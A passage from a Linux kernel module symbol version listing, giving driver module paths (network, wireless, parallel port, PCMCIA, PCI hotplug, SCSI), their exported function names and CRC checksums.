    drivers/net/ppp_generic ppp_register_channel 0x31c2c836
    drivers/net/ppp_generic ppp_register_compressor 0x0a98a2d2
    drivers/net/ppp_generic ppp_unit_number 0x7a5f58b1
    drivers/net/ppp_generic ppp_unregister_channel 0x90aad556
    drivers/net/ppp_generic ppp_unregister_compressor 0x2af6aefe
    drivers/net/pppox pppox_unbind_sock 0xbbbe5a4b
    drivers/net/pppox register_pppox_proto 0x6e72d5fc
    drivers/net/pppox unregister_pppox_proto 0xe0ff7a18
    drivers/net/slhc slhc_compress 0x76135e6c
    drivers/net/slhc slhc_free 0x2894cfb0
    drivers/net/slhc slhc_init 0x2e0e927f
    drivers/net/slhc slhc_remember 0x0bc55868
    drivers/net/slhc slhc_toss 0xf89e3455
    drivers/net/slhc slhc_uncompress 0x3bc1319e
    drivers/net/sungem_phy mii_phy_probe 0x6d7dcade
    drivers/net/tokenring/tms380tr tms380tr_close 0x2fc04be7
    drivers/net/tokenring/tms380tr tms380tr_interrupt 0x3c7db227
    drivers/net/tokenring/tms380tr tms380tr_open 0xce5f254c
    drivers/net/tokenring/tms380tr tms380tr_wait 0xd2328794
    drivers/net/tokenring/tms380tr tmsdev_init 0x27370ee2
    drivers/net/tokenring/tms380tr tmsdev_term 0x7ddff261
    drivers/net/wan/cycx_drv cycx_down 0x66a4c4e6
    drivers/net/wan/cycx_drv cycx_exec 0xfe7cd576
    drivers/net/wan/cycx_drv cycx_intr 0x38da4725
    drivers/net/wan/cycx_drv cycx_peek 0x968458a6
    drivers/net/wan/cycx_drv cycx_poke 0xb6f383de
    drivers/net/wan/cycx_drv cycx_setup 0x62be23ea
    drivers/net/wan/hdlc alloc_hdlcdev 0xebf01a75
    drivers/net/wan/hdlc hdlc_close 0x650f7b91
    drivers/net/wan/hdlc hdlc_ioctl 0x9dfcb4a5
    drivers/net/wan/hdlc hdlc_open 0x85033465
    drivers/net/wan/hdlc hdlc_set_carrier 0x157db1ee
    drivers/net/wan/hdlc register_hdlc_device 0x82e95512
    drivers/net/wan/hdlc unregister_hdlc_device 0x85543eaf
    drivers/net/wan/syncppp sppp_attach 0x6cf771f8
    drivers/net/wan/syncppp sppp_close 0xd893c12a
    drivers/net/wan/syncppp sppp_detach 0x6b81f749
    drivers/net/wan/syncppp sppp_do_ioctl 0x176b3349
    drivers/net/wan/syncppp sppp_open 0x9d5ac552
    drivers/net/wan/syncppp sppp_reopen 0x558b9961
    drivers/net/wan/z85230 z8530_channel_load 0xca48bc94
    drivers/net/wan/z85230 z8530_dead_port 0x10c78988
    drivers/net/wan/z85230 z8530_describe 0x644e77bb
    drivers/net/wan/z85230 z8530_dma_sync 0xc19f3ae2
    drivers/net/wan/z85230 z8530_get_stats 0xccbc4e5f
    drivers/net/wan/z85230 z8530_hdlc_kilostream 0x5cd24d29
    drivers/net/wan/z85230 z8530_hdlc_kilostream_85230 0xe3d80064
    drivers/net/wan/z85230 z8530_init 0x15cbff18
    drivers/net/wan/z85230 z8530_interrupt 0x33a2d438
    drivers/net/wan/z85230 z8530_nop 0xc6238269
    drivers/net/wan/z85230 z8530_null_rx 0x486d1b76
    drivers/net/wan/z85230 z8530_queue_xmit 0x5cb24f24
    drivers/net/wan/z85230 z8530_shutdown 0x4bf66453
    drivers/net/wan/z85230 z8530_sync 0xfd2afcf7
    drivers/net/wan/z85230 z8530_sync_close 0x0e66917b
    drivers/net/wan/z85230 z8530_sync_dma_close 0x0a7f497c
    drivers/net/wan/z85230 z8530_sync_dma_open 0xdb538051
    drivers/net/wan/z85230 z8530_sync_open 0x19ad92d7
    drivers/net/wan/z85230 z8530_sync_txdma_close 0x15c7861f
    drivers/net/wan/z85230 z8530_sync_txdma_open 0xb91f8d82
    drivers/net/wan/z85230 z8530_txdma_sync 0x804933f6
    drivers/net/wireless/airo init_airo_card 0x81a8c1bb
    drivers/net/wireless/airo reset_airo_card 0x0a7d00aa
    drivers/net/wireless/airo stop_airo_card 0xf6ac53c3
    drivers/net/wireless/atmel atmel_open 0xcd5e16f9
    drivers/net/wireless/atmel init_atmel_card 0x9bdb9731
    drivers/net/wireless/atmel stop_atmel_card 0xe9b68e14
    drivers/net/wireless/hermes hermes_allocate 0xd5168829
    drivers/net/wireless/hermes hermes_bap_pread 0xd3f714e5
    drivers/net/wireless/hermes hermes_bap_pwrite 0xc60b5e9e
    drivers/net/wireless/hermes hermes_bap_pwrite_pad 0x2d86dfb4
    drivers/net/wireless/hermes hermes_docmd_wait 0xd54e219d
    drivers/net/wireless/hermes hermes_init 0xd5336e5d
    drivers/net/wireless/hermes hermes_read_ltv 0xd38d8ae2
    drivers/net/wireless/hermes hermes_struct_init 0xed47b224
    drivers/net/wireless/hermes hermes_write_ltv 0x4196c38b
    drivers/net/wireless/hostap/hostap hostap_80211_get_hdrlen 0x6903f16c
    drivers/net/wireless/hostap/hostap hostap_80211_header_parse 0xde4f34dd
    drivers/net/wireless/hostap/hostap hostap_80211_prism_header_parse 0xa256e260
    drivers/net/wireless/hostap/hostap hostap_80211_rx 0xbd7c49d9
    drivers/net/wireless/hostap/hostap hostap_add_interface 0x6882cf2e
    drivers/net/wireless/hostap/hostap hostap_add_sta 0xb79a6ad6
    drivers/net/wireless/hostap/hostap hostap_add_wds_links 0x22d93fa8
    drivers/net/wireless/hostap/hostap hostap_check_sta_fw_version 0x9a332caf
    drivers/net/wireless/hostap/hostap hostap_deauth_all_stas 0x25ab9eb0
    drivers/net/wireless/hostap/hostap hostap_dump_rx_header 0x27a069d6
    drivers/net/wireless/hostap/hostap hostap_dump_tx_80211 0xef5ef89e
    drivers/net/wireless/hostap/hostap hostap_dump_tx_header 0x3abcbf80
    drivers/net/wireless/hostap/hostap hostap_free_data 0xdf948694
    drivers/net/wireless/hostap/hostap hostap_get_porttype 0xafda404e
    drivers/net/wireless/hostap/hostap hostap_get_stats 0xcd4394ae
    drivers/net/wireless/hostap/hostap hostap_handle_sta_release 0x27df6133
    drivers/net/wireless/hostap/hostap hostap_handle_sta_rx 0x511120c5
    drivers/net/wireless/hostap/hostap hostap_handle_sta_tx 0x7e5b88b1
    drivers/net/wireless/hostap/hostap hostap_handle_sta_tx_exc 0x5eca2efe
    drivers/net/wireless/hostap/hostap hostap_info_init 0xf66e691f
    drivers/net/wireless/hostap/hostap hostap_info_process 0x6beec772
    drivers/net/wireless/hostap/hostap hostap_init_ap_proc 0xf9713c4a
    drivers/net/wireless/hostap/hostap hostap_init_data 0xc66916e3
    drivers/net/wireless/hostap/hostap hostap_init_proc 0xe68526a7
    drivers/net/wireless/hostap/hostap hostap_is_sta_assoc 0x75ea8c35
    drivers/net/wireless/hostap/hostap hostap_is_sta_authorized 0xd6769bb2
    drivers/net/wireless/hostap/hostap hostap_master_start_xmit 0x62d20116
    drivers/net/wireless/hostap/hostap hostap_proc 0x14b6faed
    drivers/net/wireless/hostap/hostap hostap_remove_interface 0x7e0c297c
    drivers/net/wireless/hostap/hostap hostap_remove_proc 0x7a238d83
    drivers/net/wireless/hostap/hostap hostap_set_antsel 0xf0010ed6
    drivers/net/wireless/hostap/hostap hostap_set_auth_algs 0xb3fb2937
    drivers/net/wireless/hostap/hostap hostap_set_encryption 0x6c3794f6
    drivers/net/wireless/hostap/hostap hostap_set_hostapd 0x4c4f70cc
    drivers/net/wireless/hostap/hostap hostap_set_hostapd_sta 0xfb2c97ef
    drivers/net/wireless/hostap/hostap hostap_set_multicast_list_queue 0xc089a779
    drivers/net/wireless/hostap/hostap hostap_set_roaming 0x2a297f9d
    drivers/net/wireless/hostap/hostap hostap_set_string 0xa8fb01db
    drivers/net/wireless/hostap/hostap hostap_set_word 0x13e9add4
    drivers/net/wireless/hostap/hostap hostap_setup_dev 0xd9cb69bf
    drivers/net/wireless/hostap/hostap hostap_tx_encrypt 0x58627460
    drivers/net/wireless/hostap/hostap hostap_update_rates 0xc0f6e939
    drivers/net/wireless/hostap/hostap hostap_update_sta_ps 0x1be47344
    drivers/net/wireless/hostap/hostap hostap_wds_link_oper 0xe4ec3f7b
    drivers/net/wireless/hostap/hostap prism2_update_comms_qual 0x616d2876
    drivers/net/wireless/orinoco __orinoco_down 0x7253e307
    drivers/net/wireless/orinoco __orinoco_up 0xc63211a4
    drivers/net/wireless/orinoco alloc_orinocodev 0xc387cba1
    drivers/net/wireless/orinoco free_orinocodev 0x269cf7ad
    drivers/net/wireless/orinoco orinoco_interrupt 0x36feb7f6
    drivers/net/wireless/orinoco orinoco_reinit_firmware 0x4595d9f0
    drivers/net/wireless/prism54_softmac/islsm alloc_islsm 0x8de1baf3
    drivers/net/wireless/prism54_softmac/islsm free_islsm 0x5311a528
    drivers/net/wireless/prism54_softmac/islsm isl_debug 0x0e4bc92f
    drivers/net/wireless/prism54_softmac/islsm isl_dump_bytes 0x73304ad9
    drivers/net/wireless/prism54_softmac/islsm isl_fn_enter 0x78ec8b7c
    drivers/net/wireless/prism54_softmac/islsm isl_fn_exit 0xcae1521d
    drivers/net/wireless/prism54_softmac/islsm isl_fn_exit_v 0x62f920fa
    drivers/net/wireless/prism54_softmac/islsm islsm_alloc_dump 0xff17f605
    drivers/net/wireless/prism54_softmac/islsm islsm_bootup_input 0xab18bfed
    drivers/net/wireless/prism54_softmac/islsm islsm_data_input 0xccd62c10
    drivers/net/wireless/prism54_softmac/islsm islsm_free 0x9bb64e49
    drivers/net/wireless/prism54_softmac/islsm islsm_mode_set_filter 0x8be34012
    drivers/net/wireless/prism54_softmac/islsm islsm_ping_device 0x804d7234
    drivers/net/wireless/prism54_softmac/islsm islsm_request_firmware 0x65b74c10
    drivers/net/wireless/prism54_softmac/islsm islsm_wait_timeout 0x9e8db79c
    drivers/net/wireless/prism54_softmac/islsm register_islsm 0x501970cf
    drivers/net/wireless/prism54_softmac/islsm unregister_islsm 0xd6062476
    drivers/net/wireless/prism54_softmac/islsm_device uart_init_dev 0x41e77a95
    drivers/net/wireless/prism54_softmac/islsm_device uart_release_dev 0x3a17e1eb
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_alloc_ieee80211 0x1601f602
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_free_ieee80211 0xe80306a1
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_crypt_deinit_entries 0x1b27826e
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_crypt_deinit_handler 0x4e797913
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_crypt_delayed_deinit 0x7ba58c18
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_get_beacon 0x7c253d89
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_get_crypto_ops 0xf0c2a994
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_is_54g 0xc623eea6
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_is_shortslot 0xd0fdbf18
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_ps_tx_ack 0x54f6ae23
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_register_crypto_ops 0x7d4866f1
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_reset_queue 0xfa730241
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_rx 0xf9fba454
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_rx_mgt 0xe451bb92
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_softmac_start_protocol 0xfbc4abdc
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_softmac_stop_protocol 0x9b0e604b
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_stop_queue 0x1644588b
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_txb_free 0xc50b767e
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_unregister_crypto_ops 0x79387556
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wake_queue 0xc24d4cd5
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wlan_frequencies 0x04aff7a8
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wpa_supplicant_ioctl 0xf2295de3
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_encode 0x5e38ed0b
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_essid 0x23d62633
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_freq 0xc1de532c
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_mode 0xb1127ad0
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_name 0x3b7b6595
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_power 0x1c79f2f8
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_rate 0xc9c9063d
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_scan 0x73d90820
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_get_wap 0xf7ad09f7
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_encode 0x74f89e83
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_essid 0x8c8e3ac8
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_freq 0x93d9e485
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_mode 0xe315cd79
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_power 0xb321ee03
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_rate 0x9bceb194
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_rawtx 0x80554d3c
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_scan 0x21debf89
    drivers/net/wireless/rtl_ieee80211/ieee80211-rtl rtl_ieee80211_wx_set_wap 0x98f89644
    drivers/parport/parport parport_announce_port 0x8eab7d5d
    drivers/parport/parport parport_claim 0x5e52bdb8
    drivers/parport/parport parport_claim_or_block 0x58462e57
    drivers/parport/parport parport_find_base 0x03db3480
    drivers/parport/parport parport_find_number 0x33279345
    drivers/parport/parport parport_get_port 0xa375d7e0
    drivers/parport/parport parport_ieee1284_ecp_read_data 0xa6ee7573
    drivers/parport/parport parport_ieee1284_ecp_write_addr 0xc72d6a2a
    drivers/parport/parport parport_ieee1284_ecp_write_data 0xa4658f92
    drivers/parport/parport parport_ieee1284_epp_read_addr 0xdd3ae211
    drivers/parport/parport parport_ieee1284_epp_read_data 0xf9f05078
    drivers/parport/parport parport_ieee1284_epp_write_addr 0xdef59c42
    drivers/parport/parport parport_ieee1284_epp_write_data 0xbdbd79fa
    drivers/parport/parport parport_ieee1284_interrupt 0xb3ec0c3b
    drivers/parport/parport parport_ieee1284_read_byte 0x63d578cb
    drivers/parport/parport parport_ieee1284_read_nibble 0x26a89a82
    drivers/parport/parport parport_ieee1284_write_compat 0x0c85c76e
    drivers/parport/parport parport_negotiate 0x043c6610
    drivers/parport/parport parport_put_port 0xd8af528e
    drivers/parport/parport parport_read 0xb16721c9
    drivers/parport/parport parport_register_device 0xa29c8cdb
    drivers/parport/parport parport_register_driver 0xf6eb7305
    drivers/parport/parport parport_register_port 0x0b87118e
    drivers/parport/parport parport_release 0xa269903d
    drivers/parport/parport parport_remove_port 0xa341d5f0
    drivers/parport/parport parport_set_timeout 0xef60fcc5
    drivers/parport/parport parport_unregister_device 0x0388278a
    drivers/parport/parport parport_unregister_driver 0x235fc595
    drivers/parport/parport parport_wait_event 0x096cdba7
    drivers/parport/parport parport_wait_peripheral 0xcedc3819
    drivers/parport/parport parport_write 0xf7a5cb00
    drivers/parport/parport_pc parport_pc_probe_port 0x7d1dd205
    drivers/parport/parport_pc parport_pc_unregister_port 0x59fa93ce
    drivers/pci/hotplug/acpiphp acpiphp_register_attention 0x0682cde0
    drivers/pci/hotplug/acpiphp acpiphp_unregister_attention 0x2dfb5107
    drivers/pci/hotplug/pci_hotplug cpci_hp_register_bus 0x36222e82
    drivers/pci/hotplug/pci_hotplug cpci_hp_register_controller 0x28f9c33a
    drivers/pci/hotplug/pci_hotplug cpci_hp_start 0x6a8441be
    drivers/pci/hotplug/pci_hotplug cpci_hp_stop 0x94ef4d05
    drivers/pci/hotplug/pci_hotplug cpci_hp_unregister_bus 0x86b81737
    drivers/pci/hotplug/pci_hotplug cpci_hp_unregister_controller 0xac340986
    drivers/pci/hotplug/pci_hotplug pci_hotplug_slots_subsys 0x9cd9ede5
    drivers/pci/hotplug/pci_hotplug pci_hp_change_slot_info 0x3c910433
    drivers/pci/hotplug/pci_hotplug pci_hp_deregister 0xa5c7c5d6
    drivers/pci/hotplug/pci_hotplug pci_hp_register 0x78176eac
    drivers/pcmcia/pcmcia cs_error 0xfd362428
    drivers/pcmcia/pcmcia pcmcia_access_configuration_register 0xaff10cc2
    drivers/pcmcia/pcmcia pcmcia_deregister_client 0xf0a65442
    drivers/pcmcia/pcmcia pcmcia_get_configuration_info 0x6becb996
    drivers/pcmcia/pcmcia pcmcia_get_first_tuple 0x9637deaf
    drivers/pcmcia/pcmcia pcmcia_get_mem_page 0x58a1c8bb
    drivers/pcmcia/pcmcia pcmcia_get_next_tuple 0x88834905
    drivers/pcmcia/pcmcia pcmcia_get_status 0x2b23cbea
    drivers/pcmcia/pcmcia pcmcia_get_tuple_data 0x42056c7b
    drivers/pcmcia/pcmcia pcmcia_get_window 0x4d5eb0c3
    drivers/pcmcia/pcmcia pcmcia_map_mem_page 0xc791e84e
    drivers/pcmcia/pcmcia pcmcia_modify_configuration 0x2213cd3d
    drivers/pcmcia/pcmcia pcmcia_parse_tuple 0xd73fb889
    drivers/pcmcia/pcmcia pcmcia_register_client 0x3acfb739
    drivers/pcmcia/pcmcia pcmcia_register_driver 0x5f74d37c
    drivers/pcmcia/pcmcia pcmcia_release_configuration 0x32aeae81
    drivers/pcmcia/pcmcia pcmcia_release_io 0x5c53fef2
    drivers/pcmcia/pcmcia pcmcia_release_irq 0x9ea2e734
    drivers/pcmcia/pcmcia pcmcia_release_window 0x8b5ad1f0
    drivers/pcmcia/pcmcia pcmcia_request_configuration 0x7dca4d47
    drivers/pcmcia/pcmcia pcmcia_request_io 0xd33652f4
    drivers/pcmcia/pcmcia pcmcia_request_irq 0x17982014
    drivers/pcmcia/pcmcia pcmcia_request_window 0x5b103a2f
    drivers/pcmcia/pcmcia pcmcia_reset_card 0x1674b603
    drivers/pcmcia/pcmcia pcmcia_unregister_driver 0xf99aa1ba
    drivers/pcmcia/pcmcia pcmcia_validate_cis 0xb7736c5e
    drivers/pcmcia/pcmcia_core dead_socket 0xcf97f3bd
    drivers/pcmcia/pcmcia_core destroy_cis_cache 0x6d574109
    drivers/pcmcia/pcmcia_core pccard_get_first_tuple 0xacbaef23
    drivers/pcmcia/pcmcia_core pccard_get_next_tuple 0xf7884d6c
    drivers/pcmcia/pcmcia_core pccard_get_tuple_data 0xc2051b02
    drivers/pcmcia/pcmcia_core pccard_parse_tuple 0xcd2ac1c1
    drivers/pcmcia/pcmcia_core pccard_read_tuple 0x53213db3
    drivers/pcmcia/pcmcia_core pccard_register_pcmcia 0x09aafd08
    drivers/pcmcia/pcmcia_core pccard_reset_card 0xa65fd602
    drivers/pcmcia/pcmcia_core pccard_static_ops 0xa3ccc35c
    drivers/pcmcia/pcmcia_core pccard_validate_cis 0x2b249a51
    drivers/pcmcia/pcmcia_core pcmcia_adjust_io_region 0x95286909
    drivers/pcmcia/pcmcia_core pcmcia_adjust_resource_info 0xac8e7c5f
    drivers/pcmcia/pcmcia_core pcmcia_eject_card 0x0350e311
    drivers/pcmcia/pcmcia_core pcmcia_find_io_region 0xd5e0d5d9
    drivers/pcmcia/pcmcia_core pcmcia_find_mem_region 0x6222d92f
    drivers/pcmcia/pcmcia_core pcmcia_get_socket 0xa55e1a8a
    drivers/pcmcia/pcmcia_core pcmcia_get_socket_by_nr 0x64da19fc
    drivers/pcmcia/pcmcia_core pcmcia_insert_card 0x329ae640
    drivers/pcmcia/pcmcia_core pcmcia_parse_events 0x70fc77ff
    drivers/pcmcia/pcmcia_core pcmcia_put_socket 0x1d706938
    drivers/pcmcia/pcmcia_core pcmcia_read_cis_mem 0x68adc97c
    drivers/pcmcia/pcmcia_core pcmcia_register_socket 0xc1243531
    drivers/pcmcia/pcmcia_core pcmcia_replace_cis 0x817edfc7
    drivers/pcmcia/pcmcia_core pcmcia_resume_card 0x6f0aec41
    drivers/pcmcia/pcmcia_core pcmcia_socket_class 0x4e45b6d9
    drivers/pcmcia/pcmcia_core pcmcia_socket_dev_resume 0x9119fdbd
    drivers/pcmcia/pcmcia_core pcmcia_socket_dev_suspend 0xc905c26c
    drivers/pcmcia/pcmcia_core pcmcia_socket_list 0x212db8d2
    drivers/pcmcia/pcmcia_core pcmcia_socket_list_rwsem 0xc467c2db
    drivers/pcmcia/pcmcia_core pcmcia_suspend_card 0xa7617639
    drivers/pcmcia/pcmcia_core pcmcia_unregister_socket 0x67ca47f7
    drivers/pcmcia/pcmcia_core pcmcia_validate_mem 0x508234bc
    drivers/pcmcia/pcmcia_core pcmcia_write_cis_mem 0xdfa128ec
    drivers/pcmcia/pcmcia_core release_cis_mem 0xe23776af
    drivers/pcmcia/rsrc_nonstatic pccard_nonstatic_ops 0x23282add
    drivers/scsi/53c700 NCR_700_detect 0x0a13d463
    drivers/scsi/53c700 NCR_700_intr 0xe19cbc56
    drivers/scsi/53c700 NCR_700_release 0x6c99b3c5
    drivers/scsi/libata __sata_phy_reset 0xb1192ae6
    drivers/scsi/libata ata_acpi_bus_register 0x4eb7c257
    drivers/scsi/libata ata_acpi_exec_tfs 0xf3588a4b
    drivers/scsi/libata ata_acpi_get_timing 0x5db05c38
    drivers/scsi/libata ata_acpi_push_id 0xa5016e0b
    drivers/scsi/libata ata_acpi_push_timing 0xd1a02fe8
    drivers/scsi/libata ata_altstatus 0x42e17aaa
    drivers/scsi/libata ata_bmdma_irq_clear 0x01dcdd1e
    drivers/scsi/libata ata_bmdma_setup 0xbbf9d114
    drivers/scsi/libata ata_bmdma_start 0xafa6179c
    drivers/scsi/libata ata_bmdma_status 0x6f22b844
    drivers/scsi/libata ata_bmdma_stop 0x65b503c9
    drivers/scsi/libata ata_bus_probe 0x9b34f7ff
    drivers/scsi/libata ata_bus_reset 0x661aa906
    drivers/scsi/libata ata_check_status 0x7617b9d2
    drivers/scsi/libata ata_dev_classify 0x0531dcb8
    drivers/scsi/libata ata_dev_config 0xd68ef069
    drivers/scsi/libata ata_dev_id_string 0x07d45a53
    drivers/scsi/libata ata_device_add 0xd7cb9a2a
    drivers/scsi/libata ata_device_resume 0x8d1ae83c
    drivers/scsi/libata ata_device_shutdown 0xbcb4a182
    drivers/scsi/libata ata_device_suspend 0x00245eb1
    drivers/scsi/libata ata_eng_timeout 0x5aa88dd1
    drivers/scsi/libata ata_exec_command 0xee9c6080
    drivers/scsi/libata ata_host_intr 0x31916d10
    drivers/scsi/libata ata_host_set_remove 0x003ffdc6
    drivers/scsi/libata ata_host_stop 0x70fbf3ae
    drivers/scsi/libata ata_hotplug_plug 0x53202cc5
    drivers/scsi/libata ata_hotplug_unplug 0xa5b8c425
    drivers/scsi/libata ata_interrupt 0x12058575
    drivers/scsi/libata ata_noop_dev_select 0x602bbdec
    drivers/scsi/libata ata_pci_device_resume 0x418041b9
    drivers/scsi/libata ata_pci_device_suspend 0xa59b7d80
    drivers/scsi/libata ata_pci_host_stop 0x0caf73fb
    drivers/scsi/libata ata_pci_init_native_mode 0xa5dc047d
    drivers/scsi/libata ata_pci_init_one 0x5c1b1961
    drivers/scsi/libata ata_pci_remove_one 0x617dc678
    drivers/scsi/libata ata_port_disable 0x93aa8d04
    drivers/scsi/libata ata_port_probe 0x950cb4b6
    drivers/scsi/libata ata_port_start 0x3b446399
    drivers/scsi/libata ata_port_stop 0x46d923ee
    drivers/scsi/libata ata_qc_complete 0x107eacb1
    drivers/scsi/libata ata_qc_issue_prot 0x1e311e9d
    drivers/scsi/libata ata_qc_prep 0x4dbe9183
    drivers/scsi/libata ata_ratelimit 0xf8f3a0fb
    drivers/scsi/libata ata_scsi_device_resume 0x15fce9b4
    drivers/scsi/libata ata_scsi_device_shutdown 0xe41414fe
    drivers/scsi/libata ata_scsi_device_suspend 0x981ad759
    drivers/scsi/libata ata_scsi_error 0xea970e0c
    drivers/scsi/libata ata_scsi_ioctl 0x6a058a0a
    drivers/scsi/libata ata_scsi_queuecmd 0xe33eab5f
    drivers/scsi/libata ata_scsi_release 0x643b4bc3
    drivers/scsi/libata ata_scsi_simulate 0x2ba6e35f
    drivers/scsi/libata ata_scsi_slave_config 0xc7626d5c
    drivers/scsi/libata ata_sg_init 0x5aac1d24
    drivers/scsi/libata ata_sg_init_one 0xe3e21dc0
    drivers/scsi/libata ata_std_bios_param 0x8bf253ec
    drivers/scsi/libata ata_std_dev_select 0xd5c97aef
    drivers/scsi/libata ata_std_ports 0x9c0148bd
    drivers/scsi/libata ata_tf_from_fis 0x0067df75
    drivers/scsi/libata ata_tf_load 0x8920448f
    drivers/scsi/libata ata_tf_read 0x42502024
    drivers/scsi/libata ata_tf_to_fis 0x28177a3f
    drivers/scsi/libata ata_timing_compute 0xf6f94640
    drivers/scsi/libata ata_timing_merge 0xf3d5cc13
    drivers/scsi/libata do_drive_get_GTF 0x7735bdff
    drivers/scsi/libata do_drive_set_taskfiles 0x125acab8
    drivers/scsi/libata pci_test_config_bits 0x92177160
    drivers/scsi/libata sata_phy_reset 0xbbe08647
    drivers/scsi/megaraid/megaraid_mm mraid_mm_adapter_app_handle 0x2250c66e
    drivers/scsi/megaraid/megaraid_mm mraid_mm_register_adp 0x975010d6
    drivers/scsi/megaraid/megaraid_mm mraid_mm_unregister_adp 0x512c956d
    drivers/scsi/qla2xxx/qla2xxx qla2x00_probe_one 0x2b8c0501
    drivers/scsi/qla2xxx/qla2xxx qla2x00_remove_one 0x054269da
    drivers/scsi/qlogicfas408 qlogicfas408_abort 0x07ce3d38
    drivers/scsi/qlogicfas408 qlogicfas408_biosparam 0xa381bb96
    drivers/scsi/qlogicfas408 qlogicfas408_bus_reset 0x2af1d6bb
    drivers/scsi/qlogicfas408 qlogicfas408_detect 0x3fd8cd71
    drivers/scsi/qlogicfas408 qlogicfas408_disable_ints 0x3a8f2ceb
    drivers/scsi/qlogicfas408 qlogicfas408_get_chip_type 0xe76b3b20
    drivers/scsi/qlogicfas408 qlogicfas408_ihandl 0x97bdeb7b
    drivers/scsi/qlogicfas408 qlogicfas408_info 0x5d868560
    drivers/scsi/qlogicfas408 qlogicfas408_queuecommand 0x04a28732
    drivers/scsi/qlogicfas408 qlogicfas408_setup 0xf2b95199
    drivers/scsi/raid_class raid_class_attach 0xe4383b69
    drivers/scsi/raid_class raid_class_release 0x22ae835b
    drivers/scsi/raid_class raid_component_add 0x17783ccf
    drivers/scsi/sas/sas_class sas_register_ha 0xf87a6365
    drivers/scsi/sas/sas_class sas_unregister_ha 0x4cac0f84
    drivers/scsi/scsi_mod __scsi_add_device 0x07a02a18
    drivers/scsi/scsi_mod __scsi_device_lookup 0x970685ee
    drivers/scsi/scsi_mod __scsi_device_lookup_by_target 0xe11a1a46
    drivers/scsi/scsi_mod __scsi_iterate_devices 0x34bda70d
    drivers/scsi/scsi_mod __scsi_print_command 0xfef96e23
    drivers/scsi/scsi_mod __scsi_print_sense 0x69d38ed9
    drivers/scsi/scsi_mod int_to_scsilun 0xea10212a
    drivers/scsi/scsi_mod scsi_add_device 0x7491cf53
    drivers/scsi/scsi_mod scsi_add_host 0xfe421660
    drivers/scsi/scsi_mod scsi_adjust_queue_depth 0x0cc3b5df
    drivers/scsi/scsi_mod scsi_allocate_request 0xfc8e1cfc
    drivers/scsi/scsi_mod scsi_bios_ptable 0xb51fad5b
    drivers/scsi/scsi_mod scsi_block_requests 0x872767a7
    drivers/scsi/scsi_mod scsi_block_when_processing_errors 0xafcbeb85
    drivers/scsi/scsi_mod scsi_bus_type 0xb72f2847
    drivers/scsi/scsi_mod scsi_calculate_bounce_limit 0xc6de41e0
    drivers/scsi/scsi_mod scsi_command_normalize_sense 0xba1262a7
    drivers/scsi/scsi_mod scsi_device_cancel 0x2fe63ac5
    drivers/scsi/scsi_mod scsi_device_get 0x997530dc
    drivers/scsi/scsi_mod scsi_device_lookup 0x15f43123
    drivers/scsi/scsi_mod scsi_device_lookup_by_target 0xae2b2f58
    drivers/scsi/scsi_mod scsi_device_put 0x0fea5e9e
    drivers/scsi/scsi_mod scsi_device_quiesce 0x1795a9a6
    drivers/scsi/scsi_mod scsi_device_resume 0x7d2d93b0
    drivers/scsi/scsi_mod scsi_device_set_state 0x3a530487
    drivers/scsi/scsi_mod scsi_device_types 0x6df713c9
    drivers/scsi/scsi_mod scsi_do_req 0x6dbacc88
    drivers/scsi/scsi_mod scsi_execute 0x5c956fb9
    drivers/scsi/scsi_mod scsi_execute_req 0xd735f720
    drivers/scsi/scsi_mod scsi_extd_sense_format 0x11267875
    drivers/scsi/scsi_mod scsi_finish_command 0xac03cd01
    drivers/scsi/scsi_mod scsi_flush_work 0xed0635ac
